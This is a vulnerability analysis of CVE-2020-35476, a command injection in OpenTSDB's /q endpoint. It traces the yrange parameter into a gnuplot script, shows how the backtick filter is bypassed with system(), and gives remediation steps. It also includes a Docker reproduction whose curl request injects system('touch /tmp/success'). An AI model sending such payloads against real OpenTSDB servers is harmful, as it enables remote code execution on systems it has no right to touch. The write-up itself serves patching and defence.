


# CVE-2020-35476 CWE-78 OpenTSDB command injection

## Vulnerability Background
**/q Interface**: OpenTSDB provides an HTTP-based API interface that allows users to query, store, and manage time series data. Among them, the `/q` interface is used to query time series data and supports multiple parameters to meet different query needs. The `/q` interface also supports other parameters to provide more flexible query functions, such as `xrange` and `yrange`: setting the display range for the X and Y axes.

## Vulnerability Mechanism
In the `/q` interface of OpenTSDB, there is a `yrange` parameter. The `yrange` parameter values submitted by users are written into the gnuplot file in the `/tmp` directory and then executed via `mygnuplot.sh` scripts. Although `tsd/GraphHandler.java` tries to prevent command injection by blocking backquotes, this measure is not enough to completely avoid the risks of command injection, such as executing commands directly with `system()` functions. Since the `system()` function does not include backquotes, it can bypass filtering mechanisms that only target backquotes and successfully execute arbitrary commands on the server.

Due to insufficient filtering and validation of yrange parameter input, there is a risk of possible command injection. By injecting malicious commands through carefully constructed `yrange` parameters, arbitrary code can be executed on the server.

## Vulnerability Location
1. **Handling URL Requests**: In the **src/tsd/GraphHandler.java** file, at line **109**, when a user provides parameters via a URL and submits a request, the `GraphHandler` class of parameterized `execute` method is called. This method handles HTTP requests and generates responses. If the request contains `json`, `png`, or `ascii` parameters, `doGraph` methods are called to handle the logic behind chart generation. Next, trace the parsing query parameters using the doGraph function

```java
public void execute(final TSDB tsdb, final HttpQuery query) {
    if (!query.hasQueryStringParam("json")
        && !query.hasQueryStringParam("png")
        && !query.hasQueryStringParam("ascii")) {
      String uri = query.request().getUri();
      if (uri.length() < 4) {  // Shouldn't happen...
        uri = "/";             // But just in case, redirect.
      } else {
        uri = "/#" + uri.substring(3);  // Remove "/q?"
      }
      query.redirect(uri);
      return;
    }
    try {
      doGraph(tsdb, query);
    } catch (IOException e) {
      query.internalError(e);
    } catch (IllegalArgumentException e) {
      query.badRequest(e.getMessage());
    }
  }
```

2. **Processing Chart Generation Logic**: In the **src/tsd/GraphHandler.java** file, at line **135**, `doGraph` method parses other parameters in the request, such as time range and data queries. Line **208** calls the `setPlotParams` function, extracting specified parameters from the query string. Afterwards, `rungnuplot` functions are called to execute the script file

```java
private void doGraph(final TSDB tsdb, final HttpQuery query)
    // ... ...
    setPlotParams(query, plot);
    // ... ...

    final RunGnuplot rungnuplot = new RunGnuplot(query, max_age, plot, basepath,
            aggregated_tags, npoints);
	// ... ...
  }
```

3. **Extract specified parameters**: In the **src/tsd/GraphHandler.java** file, line **711** `setPlotParams` function. Its function is to extract specified parameters from the query string, process them `yrange` parameters after the `popParam` function, and add them `params` Mapping. After handling a series of parameters, `plot.setParams(params)` applies these parameters to `plot` objects.

```java
 static void setPlotParams(final HttpQuery query, final Plot plot) {
    final HashMap<String, String> params = new HashMap<String, String>();
    final Map<String, List<String>> querystring = query.getQueryString();
    String value;
    if ((value = popParam(querystring, "yrange")) != null) {
      params.put("yrange", value);
    }
     // ... Other parameter handling ...
     plot.setParams(params);
 }
```

4. **Handling parameters**: In the **src/tsd/GraphHandler.java** file, trace `popParam` function, line **690**, which checks whether the string `param` contains backquotes (') or its encoding form (%60 or &#96). Although this function tries to block command injection by blocking backquotes, it can bypass it , for example, directly executing commands through the system() function (the fixed code sets a strict matching allowlist for checking)

```java
private static String popParam(final Map<String, List<String>> querystring,
                                     final String param) {
    final List<String> params = querystring.remove(param);
    if (params == null) {
      return null;
    }
    final String given = params.get(params.size() - 1);
    // TODO - far from perfect, should help a little.
    if (given.contains("`") || given.contains("%60") || 
        given.contains("&#96;")) {
      throw new BadRequestException("Parameter " + param + " contained a "
          + "back-tick. That's a no-no.");
    }
    return given;
  }
```

5. **Save Parameters**: Continue analyzing the plot.setParams method, trace it to the file **src/graph/Plot.java**, line **137** of the setParams function. In the `setParams` method, each key-value pair in the incoming `params` `params` mapping is extracted, including `yrange` parameters, and stored in the `this.params`

```java
 public void setParams(final Map<String, String> params) {
    // check "format y" and "format y2"
    String[] y_format_keys = {"format y", "format y2"};
    for(String k : y_format_keys){
      if(params.containsKey(k)){
        params.put(k, URLDecoder.decode(params.get(k)));
      }
    }
    this.params = params;
  }
```

6. **Write Parameters into Script**: Continue tracking the handling of `params` in the **src/graph/Plot.java** file, with the writeGnuplotScript function at line **137**. In the `writeGnuplotScript` method, the `yrange` parameter in the `params` is used to generate the Gnuplot script file. If the `yrange` parameter exists and the value is not null, it is written to the Gnuplot script file

```java
private void writeGnuplotScript(final String basepath,
                               final String[] datafiles) throws IOException {
  final String script_path = basepath + ".gnuplot";
  final PrintWriter gp = new PrintWriter(script_path);
  try {
    // ... Other Gnuplot script settings ...
    if (params != null) {
      for (final Map.Entry<String, String> entry : params.entrySet()) {
        final String key = entry.getKey();
        final String value = entry.getValue();
        if (value != null) {
          gp.append("set ").append(key)
            .append(' ').append(value).write('\n');
        } else {
          gp.append("unset ").append(key).write('\n');
        }
      }
    }
    // ... Other Gnuplot script settings ...
  } finally {
    gp.close();
    LOG.info("Wrote Gnuplot script to " + script_path);
  }
}
```

7. **Execute Script**: Return to the **src/tsd/GraphHandler.java** file, line **780**. The execution of the Gnuplot file is done in `runGnuplot` using Java's `ProcessBuilder` class, which uses the plot.dumpToFiles method to generate the Gnuplot file. From the code, `GNUPLOT` can be seen as a static variable pointing to the executable or script of Gnuplot. In OpenTSDB projects, `GNUPLOT` is usually set as the path to `mygnuplot.sh` scripts

```java
static int runGnuplot(final HttpQuery query,
                        final String basepath,
                        final Plot plot) throws IOException {
    final int nplotted = plot.dumpToFiles(basepath);
    final long start_time = System.nanoTime();
    final Process gnuplot = new ProcessBuilder(GNUPLOT,
      basepath + ".out", basepath + ".err", basepath + ".gnuplot").start();
    final int rv;
    try {
      rv = gnuplot.waitFor();  // Couldn't find how to do this asynchronously.
    } catch (InterruptedException e) {
      Thread.currentThread().interrupt();  // Restore the interrupted status.
      throw new IOException("interrupted", e);  // I hate checked exceptions.
    } finally {
      gnuplot.destroy();
    }
    gnuplotlatency.add((int) ((System.nanoTime() - start_time) / 1000000));
    // ... ...
  }
```

8. **Execute saved script**: trace plot.dumpToFiles method. In the **src/graph/Plot.java** file, at line 204**, the writeGnuplotScript method is used to generate the Gnuplot file. `dumpToFiles` is responsible for overall data preparation and script generation, while `writeGnuplotScript` focuses on generating script files.

```java
public int dumpToFiles(final String basepath) throws IOException {
    // ... ...
    writeGnuplotScript(basepath, datafiles);
    return npoints;
  }
```

9. Returning to point 2, the doGraph function calls the rungnuplot function to execute the script file

In summary, `GraphHandler.execute` function processing URLs call `GraphHandler.doGraph` handle the logic generated by charts, `GraphHandler.doGraph` call `GraphHandler.popParam` receive parameters, `GraphHandler.popParam` call `plot.setParams` processing parameters, After processing `GraphHandler.doGraph` call `GraphHandler.runGnuplot` function to execute the Gnuplot script, `GraphHandler.runGnuplot` the function call `plot.dumpToFiles()` generate the Gnuplot script and data file, `plot.dumpToFiles()` function then calls `plot.writeGnuplotScript()` function to generate a script, then returns to the `GraphHandler.runGnuplot` function to call `mygnuplot.sh` execute the generated script

After the previous vulnerability (CVE-2018-12972) was disclosed, the official team introduced a backquote filter at line 697 of the `GraphHandler.java` to prevent command injection:

```java
if (given.contains("`") || given.contains("%60") || given.contains("&#96;")) {
    throw new BadRequestException("Parameter " + param + " contained a back-tick. That's a no-no.");
}
```

However, this protection can be bypassed by constructing specific inputs, such as using `[33:system('touch /tmp/poc.txt')]` as the `yrange` parameter value. When OpenTSDB processes this parameter, it writes it to a temporary gnuplot file and triggers command execution when executing `mygnuplot.sh` scripts, resulting in the creation of `/tmp/poc.txt` files on the server.

The vulnerability mainly occurs when `plot.setParams` handle parameters, i.e., in the `setPlotParams ` function mentioned in point 2, where the input of yrange parameters is not sufficiently filtered and validated. After submitting a URL request, the malicious code is automatically saved in the `Gnuplot` script and executed automatically

## Remediation

Upgrade to OpenTSDB 2.4.1 or a later build containing pull request 2127/commit `c75757601d6169c47f5b29b8c96232ca884c855b`. The patch validates `xrange`, `yrange`, and related graph-range values as numeric ranges before emitting them into the gnuplot program, preventing injected gnuplot functions such as `system()` from becoming executable syntax.

Before upgrade, disable graph generation or reject all nonnumeric range values at a reverse proxy. Run the OpenTSDB/gnuplot process in a restricted service account and sandbox with no write access to sensitive directories and no unnecessary network access.

## Affected Versions
OpenTSDB <= 2.4.0

## Environment Setup
Start the Docker environment, OpenTSDB version 2.4.0



## Vulnerability Reproduction
Enter the container command line: `docker exec -it opentsdb-2.4.0 bash`.

1. Since exploiting a vulnerability requires knowing the name of a non-empty `metric`, use the following command to view the `metric` list

```bash
curl "http://localhost:4242/api/suggest?type=metrics&q=&max=10"; echo
```

2. If the data is empty, use the following command to create a metric named `sys.cpu.nice` using the API and add a record; If the target `OpenTSDB` has `metric` and is not empty, no execution is required

```bash
curl -X POST -d '[{"metric": "sys.cpu.nice", "timestamp": 1676984400, "value": 50, "tags": {"host": "server1"}}]' http://localhost:4242/api/put; echo
```

3. Before executing the following command, use `ls /tmp/` command to view the files in the tmp directory

4. Execute the following command, where the value of the parameter `m` must include a `metric` with data. This command is used to execute `touch /tmp/success` command to modify the access and modification time of the success file, or to create a new empty success file. Then, use the `ls /tmp/` command to check the files in the tmp directory, and you will see that a file named `success` has been successfully created

```bash
curl "http://localhost:4242/q?start=2000/10/21-00:00:00&m=sum:sys.cpu.nice&o=&ylabel=&xrange=10:10&yrange=%5B0:system(%27touch%20/tmp/success%27)%5D&wxh=1516x644&style=linespoint&baba=lala&grid=t&json"; echo
```



## PoC Analysis

```bash
curl "http://localhost:4242/q?start=2000/10/21-00:00:00&m=sum:sys.cpu.nice&o=&ylabel=&xrange=10:10&yrange=%5B0:system(%27touch%20/tmp/success%27)%5D&wxh=1516x644&style=linespoint&baba=lala&grid=t&json"; echo
```

`yrange` parameter is set to `[0:system('touch /tmp/success')]`. This parameter is URL-encoded: `%5B` and `%5D` represent square brackets `[` and `]`, respectively, while `%27` represents single quotation marks `'`. After decoding, the value of `yrange` is `[0:system('touch /tmp/success')]`.

In this context, `system('touch /tmp/success')` will call system commands to create an empty file named `success` in the `/tmp` directory. If the OpenTSDB on the server has this vulnerability and remains unfixed, after executing the above `curl` command, the server will execute the `touch /tmp/success` command to create the file in the `/tmp` directory.

## References
[OS Command Injection in OpenTSDB · CVE-2020-35476 · GitHub Advisory Database](https://github.com/advisories/GHSA-hv53-q76c-7f8c)

[vulhub/opentsdb/CVE-2020-35476/README.zh-cn.md at master · vulhub/vulhub](https://github.com/vulhub/vulhub/blob/master/opentsdb/CVE-2020-35476/README.zh-cn.md)

[Fixed remote code execution issue #2051, implemented by adding a regular expression validator by manolama · Submit request #2127 · OpenTSDB/opentsdb --- Fix remote code execution #2051 by adding regex validators for the by manolama · Pull Request #2127 · OpenTSDB/opentsdb](https://github.com/OpenTSDB/opentsdb/pull/2127)

[Fix remote code execution #2051 by adding regex validators for the · manolama/opentsdb@c757576](https://github.com/manolama/opentsdb/commit/c75757601d6169c47f5b29b8c96232ca884c855b#diff-b1e89c14cdf66680c7fc71978b2c865883dd4aad6956c465d3d00108e6e0eef1)
